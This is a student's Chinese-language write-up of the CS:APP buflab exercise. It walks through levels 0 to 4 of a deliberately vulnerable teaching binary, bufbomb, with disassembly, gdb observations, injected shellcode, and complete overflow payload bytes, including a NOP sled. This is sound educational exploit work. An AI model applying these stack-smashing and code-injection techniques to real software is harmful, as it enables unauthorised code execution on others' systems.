


<center><font size = 7>Some Notes</font></center>
<p align = 'right'><font size = 3>by Nemo</font></p>
<p align = 'right'><font size = 3>2023.8.30</font></p>

### 雷点/知识点
- 32位系统，所以数据最大32位
- leave命令：先恢复栈顶指针rsp，然后恢复栈底指针，= (mov esp, ebp) + (pop ebp)

### intro
- bufbomb: The buffer bomb program you will attack.
- makecookie: Generates a “cookie” based on your userid.
- hex2raw: A utility to help convert between string formats.
整体风格和attacklab很像

#### generate cookie
userid: Nemo
cookie: 0x3bb88bc7

#### start
核心是getbuf()函数，它会导致缓冲区溢出，所以你可以填充自己的数据到栈中。 
```
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret
```
> objdump -d bufbomb > bufbomb.s

### level 0
类似attacklab，跳到smoke()即可
观察getbuf反汇编代码

缓冲区大小0x28=40 bytes，加上开始push进来的%ebp总共44 bytes，覆盖完这44 bytes之后跳到smoke()即可  
smoke地址：0x08048c18  
同样注意大端小端的区别，我的机器是小端法  
buf：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00
18 8c 04 08 00 00 00 00
```
PASS

### level 1
阅读官方文档，要跳转到fizz()同时让%rdi=cookie   
观察fizz汇编，我们需要让getbuf跳转完的时候的位置处，下4字节要为地址0x804d108中储存的值（注意：如lab名称buflab32，这是模拟32位系统下程序，所以操作数最大32位，所以ret命令是取4字节作为返回地址的，而不是8字节！这也是为什么在汇编代码中没有看到%r**，都是%e**）  
```
08048c42 <fizz>:
 8048c42:	55                   	push   %ebp
 8048c43:	89 e5                	mov    %esp,%ebp
 8048c45:	83 ec 18             	sub    $0x18,%esp
 8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
 8048c4b:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
 8048c51:	75 26                	jne    8048c79 <fizz+0x37>
```

使用gdb可以知道此值正是cookie（官方文档诚不我欺！）  
buf：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00
42 8c 04 08 00 00 00 00
c7 8b b8 3b
```
PASS

### level 2
目标是调用bang()，并且让global_val=cookie  
官方文档告诉了做法：让程序跳到栈的地址上，在栈中注入攻击代码，让程序执行（像attacklab一样）  
使用gdb获得global_val的地址，得到是0x804d100，同时得到cookie值存在0x804d108中  
使用gdb知道栈位置0x556831a8  
攻击代码：
```
mov    $0x3bb88bc7,%eax
mov    $0x804d100,%edi
mov    %eax,(%edi)
mov    $0x8048c9d,%eax
push   %eax
ret
```
将其转为字节码（通过gcc生成.o文件，然后使用objdump转为汇编，就可以看到字节码）：
```
00000000 <.text>:
   0:	b8 c7 8b b8 3b       	mov    $0x3bb88bc7,%eax
   5:	bf 00 d1 04 08       	mov    $0x804d100,%edi
   a:	89 07                	mov    %eax,(%edi)
   c:	b8 9d 8c 04 08       	mov    $0x8048c9d,%eax
  11:	50                   	push   %eax
  12:	c3                   	ret
```
buf：
```
b8 c7 8b b8 3b bf 00 d1
04 08 89 07 b8 9d 8c 04
08 50 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 b8 31 68 55
```
PASS

### level 3
根据官方文档，把cookie作为返回值，跳转回test中原本要返回的位置，使用level 2一样的方法  
官方文档也有提示：复原寄存器中的内容，这里指的是%ebp，使用gdb查看它的值为0x55683210，就在相应位置填充此值即可  
攻击代码：
```
mov    $0x8048dbe,%eax  # test中原本要返回的位置
push   %eax
mov    $0x3bb88bc7,%eax
ret
```
字节码：
```
00000000 <.text>:
   0:	b8 be 8d 04 08       	mov    $0x8048dbe,%eax
   5:	50                   	push   %eax
   6:	b8 c7 8b b8 3b       	mov    $0x3bb88bc7,%eax
   b:	c3                   	ret 
```
buf：
```
b8 be 8d 04 08 50 b8 c7
8b b8 3b c3 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
10 32 68 55 b8 31 68 55
```
PASS

### level 4
目标还是复原ebp（因为我们在注入攻击代码的时候会污染栈上的ebp），跳回原本getbufn返回的位置，返回值为cookie。此时buf为520 bytes，顶上还有一个ebp。此时每次循环中栈的位置都会有些许的改变，而且ebp的值也不是固定的了    
> 空操作雪橇  
> 在实际的攻击代码前插入很长一段的nop指令。只要攻击者能够猜中这段序列中的某个地址，程序就会通过这个序列“滑”到攻击代码。

我们通过gdb发现，5次循环中，%ebp（要复原的）和%esp（调用Gets之前的）的值为：
| ebp       | esp        |
|-----------|------------|
|0x55683210 | 0x55682fc8 |
|0x55683240 | 0x55682ff8 | 
|0x55683220 | 0x55682fd8 | 
|0x556831c0 | 0x55682f78 | 
|0x556831c0 | 0x55682f78 |

我们要保证跳转到的地址大于%esp，这样才能进入我们的攻击代码。由于它范围给的比较宽，所以取一个比上面5个%esp值都大一些的就ok了。这里选择0x556830b8  
接下来就是要复原%ebp，这个可以通过%ebp和%esp的关系得出：我们看上面5次循环中%esp和%ebp的差值都是固定的（0x248），所以可以知道在push %ebp之前%esp和%ebp之间的差值也是固定的（因为后面%esp只是减去了一个固定值0x4 + 0x218）。在getbufn跳转到我们的攻击代码处时，%esp的状态其实是没变的（因为%esp是通过%ebp恢复的，%ebp是通过栈恢复的，所以%ebp是被污染了的），刚好就和push %ebp之前%esp的值是一样的，所以我们可以通过%esp恢复%ebp。  
使用gdb可以知道，push %ebp之前%esp和%ebp之间的差值是%ebp = %esp + 0x28  
攻击代码：
```
lea    0x28(%esp),%ebp
mov    $0x8048e3a,%eax  # testn中原本要返回的位置
push   %eax
mov    $0x3bb88bc7,%eax
ret
```
字节码：8d 6c 24 28 b8 3a 8e 04 08 50 b8 c7 8b b8 3b c3
```
00000000 <.text>:
   0:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   4:	b8 3a 8e 04 08       	mov    $0x8048e3a,%eax
   9:	50                   	push   %eax
   a:	b8 c7 8b b8 3b       	mov    $0x3bb88bc7,%eax
   f:	c3                   	ret  
```
buf：
```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 8d 6c 24 28
b8 3a 8e 04 08 50 b8 c7
8b b8 3b c3 b8 30 68 55  # 这里选择0x556830b8作为跳转位置
```
PASS

至此buflab结束

<p align = 'right'><font size = 3>by Nemo</font></p>
<p align = 'right'><font size = 3>2023.8.30</font></p>